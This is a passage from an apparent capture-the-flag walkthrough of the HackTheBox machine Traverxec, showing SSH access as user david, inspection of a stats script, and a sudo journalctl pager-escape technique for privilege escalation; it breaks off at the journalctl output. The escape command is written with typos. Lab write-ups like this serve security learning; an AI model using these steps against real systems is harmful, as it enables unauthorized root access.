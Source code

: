 Now we have a password of ssh key we can ssh in the machine with **david** user:

``` bash
dumbland () hgfs/hackthebox/traverxec :: ssh -i id_rsa-david david@10.10.10.165
Enter passphrase for key 'id_rsa-david':
Linux traverxec 4.19.0-6-amd64 #1 SMP Debian 4.19.67-2+deb10u1 (2019-09-20) x86_64
david@traverxec:~$ id
uid=1000(david) gid=1000(david) groups=1000(david),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev)
david@traverxec:~$ ls
bin  public_www  user.txt
```



In the last command we see the user has a folder called ***bin*** in the home directory. Lets dive into it:

```
david@traverxec:~$ cd bin
david@traverxec:~/bin$ ls -alh
total 16K
drwx------ 2 david david 4.0K Oct 25 16:26 .
drwx--x--x 5 david david 4.0K Oct 25 17:02 ..
-r-------- 1 david david  802 Oct 25 16:26 server-stats.head
-rwx------ 1 david david  363 Oct 25 16:26 server-stats.sh
david@traverxec:~/bin$ cat *.sh
#!/bin/bash

cat /home/david/bin/server-stats.head
echo "Load: `/usr/bin/uptime`"
echo " "
echo "Open nhttpd sockets: `/usr/bin/ss -H sport = 80 | /usr/bin/wc -l`"
echo "Files in the docroot: `/usr/bin/find /var/nostromo/htdocs/ | /usr/bin/wc -l`"
echo " "
echo "Last 5 journal log lines:"
/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service | /usr/bin/cat
```



So, appear that user **david** can run ***journalctl*** . This particular binary use ***lesss*** to display in tty terminal. (See links  below to better understanding this behavior ). So all we have to do is execute last line of script and escape to shell typing ***!#/bin/bassh***. But there is a trick here - ***less*** only will be invocate bu ***journalctl*** if the terminal is less than file wil be display. So resize your terminal  to lower  rows and columns:

```bash
david@traverxec:~/bin$ /usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service
-- Logs begin at Thu 2020-04-23 10:18:36 EDT, end at Thu 2020-04-23 11:42:32 EDT. --
Apr 23 10:18:41 traverxec systemd[1]: Starting nostromo nhttpd server...
Apr 23 10:18:41 traverxec systemd[1]: nostromo.service: Can't open PID file /var/nostromo/logs/nhttpd.pid (yet?) af
Apr 23 10:18:41 traverxec nhttpd[458]: started
Apr 23 10:18:41 traverxec systemd[1]: Started nostromo nhttpd server.
Apr 23 10:18:41 traverxec nhttpd[458]: max. file descriptors = 1040 (cur) / 1040 (max)
lines 1-6/6 (END)
```
